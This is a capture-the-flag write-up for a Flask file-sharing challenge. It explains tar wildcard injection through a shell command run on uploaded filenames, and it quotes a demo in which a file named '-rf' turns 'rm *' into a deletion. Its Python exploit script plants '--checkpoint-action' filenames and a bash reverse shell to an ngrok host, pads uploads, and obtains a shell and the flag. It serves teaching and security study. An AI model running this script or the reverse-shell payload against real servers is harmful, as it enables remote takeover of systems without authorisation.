 # Enterprice File Sharing

## Description

> For security reasons we only use enterprice grade cloud storage.

{% file src="../../.gitbook/assets/EFS.tar.gz" %}

## Solution

### Code Review

This, for the most part, seems like a standard file hosting site. Let's take a look at the validation.

First, uploaded files must have one of the allowed extensions.

```python
# We only allow files for serious business use-cases
ALLOWED_EXTENSIONS = {'txt', 'pdf', 'doc', 'docx', 'xls', 'xlsx'}


def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```

We also see that steps have been taken to normalize the file paths, to prevent directory traversal attacks using `../`.

```python
def normalize_file(filename):
    return filename.replace("..", "_")

...

@app.route('/upload', methods=["POST"])
def upload():
    if "ID" not in session:
        return redirect("/")

    if 'file' not in request.files:
        flash('No file part')
        return redirect("/")
    file = request.files['file']

    if file.filename == '':
        flash('No file selected')
        return redirect(request.url)

    if file and allowed_file(file.filename):
        f_content = file.stream.read()
        if len(f_content) > 1024:
            flash("Your file is too big! Buy premium to upload bigger files!")
            return redirect('/')
        filename = normalize_file(file.filename)
        with open(os.path.join(SESS_BASE_DIR, session["ID"], filename), "wb") as f:
            f.write(f_content)
            print(os.path.join(SESS_BASE_DIR, session["ID"], filename))
        return redirect("/")
    else:
        flash("Invalid file type submitted!")
        return redirect('/')

    return redirect("/")
```

What seems out of the ordinary, though, is the use of `os.system()` to execute a `tar` command when the user requests to download all uploaded files. Surely there's a library for that!

```python
@app.route('/download_all')
def download_all():
    if "ID" not in session:
        return redirect("/")

    sess_id = session["ID"]
    sess_dir = os.path.join(SESS_BASE_DIR, sess_id)

    res = os.system(f"cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *")
    if res != 0:
        flash("Something went wrong.")
        return redirect("/")
    return send_file(f"/tmp/{sess_id}.tgz", attachment_filename=f"{sess_id}.tgz")
```

### Wildcard Injection

I decided to pay closer attention to the system command: `cd {sess_dir} && tar czf /tmp/{sess_id}.tgz *`.

A bit of research led me to a few very interesting papers, one of which was [this](https://www.exploit-db.com/papers/33930). Apparently, this is a class of Unix vulnerabilities where wildcards in commands can be abused to inject arguments!

For instance, if you have a file named `-rf`, and you execute `rm *`, the wildcard gets substituted with `-rf`, which is interpreted as a command line argument!

```
[root@defensecode public]# ls -al
total 20
drwxrwxr-x.  5 leon   leon   4096 Oct 28 17:04 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR1
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR2
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:04 DIR3
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file1.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file2.txt
-rw-rw-r--.  1 leon   leon      0 Oct 28 17:03 file3.txt
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf
[root@defensecode public]# rm *
[root@defensecode public]# ls -al
total 8
drwxrwxr-x.  2 leon   leon   4096 Oct 28 17:05 .
drwx------. 22 leon   leon   4096 Oct 28 16:15 ..
-rw-rw-r--.  1 nobody nobody    0 Oct 28 16:38 -rf
```

Now, how can we abuse this in our use case? In `tar`, there is a `--checkpoint-action` option that will specify which program will be executed when a "checkpoint" is reached.

A common payload to exploit this would be two files:

* `--checkpoint-action=exec=sh shell.sh`
* `--checkpoint=1`

Now, the first file and the script are no problem - we can use `--checkpoint-action=exec=sh shell.txt` to perform argument pollution, which works because this ends with `.txt`.

We cannot use `checkpoint=1` , though, because this won’t pass the extension check.

Looking a bit more into the Tar manual, I saw that the default checkpoint number is 10, which means that the checkpoint action is performed every 10 records.

![](<../../.gitbook/assets/image (80).png>)

But how big is each record? Apparently, it's 20 512-byte blocks.

![](<../../.gitbook/assets/image (82).png>)

So if we upload enough bytes, our tar archive will eventually exceed 10 records \* 20 blocks \* 512 bytes = 102400 bytes. Once that happens, we would have 10 records within the tar archive and the checkpoint action will be executed.

```python
import requests
import os

s = requests.session()

s.get("http://efs.rumble.host/")

with open("shell.txt", 'w') as f:
    f.write("bash -c \"bash -i >& /dev/tcp/6.tcp.ngrok.io/12843 0>&1\"")

with open("--checkpoint-action=exec=sh shell.txt", "w") as f:
    f.write("")

s.post("http://efs.rumble.host/upload",
    files = {"file": open("shell.txt", 'rb')}
)

s.post("http://efs.rumble.host/upload",
    files = {"file": open("--checkpoint-action=exec=sh shell.txt", 'rb')}
)

# Default record size for tar = 512 bytes * 20 = 10240 bytes
# Default checkpoint is 10 records
curr_bytes = 0
filename = 'a'

while curr_bytes < 10240 * 10:

    with open(filename + ".txt", 'wb') as f:
        f.write(os.urandom(1024))

    r = s.post("http://efs.rumble.host/upload",
        files = {"file": open(filename + ".txt", 'rb')}
    )

    print("Uploaded", filename + ".txt")
    filename += 'a'
    
    os.system("tar czf test.tgz a*.txt")
    with open("test.tgz", 'rb') as f:
        curr_bytes = len(f.read())
        print(f"Currently at {curr_bytes} bytes")

s.get("http://efs.rumble.host/download_all")
print(s.cookies.get_dict())
```

Once we request `/download_all` and the `tar` command is run, we get a shell.

```
gunicorn@8d66a32a984a:/$ cat flag.txt
cat flag.txt
CSR{shellscanbeannoying_greetsfromabudhabikek}
gunicorn@8d66a32a984a:/$
```
